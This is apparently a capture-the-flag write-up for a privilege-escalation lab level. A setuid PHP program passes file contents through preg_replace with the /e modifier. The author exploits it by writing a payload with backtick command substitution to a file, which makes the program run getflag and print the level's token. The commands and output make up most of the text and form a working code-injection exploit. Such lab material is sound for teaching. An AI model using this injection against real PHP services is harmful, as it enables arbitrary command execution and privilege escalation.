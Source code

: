 Let's list the different files present in our home repository:
```
ls -l
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

We realize that we can call ./level06 with an argument (m). Our goal here will be to match the REGEX and then execute the getflag function.
Then we will just get the token.

```
echo '[x ${`getflag`}]' > /tmp/flag
./level06 /tmp/flag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Despite the error message, we can here find the token
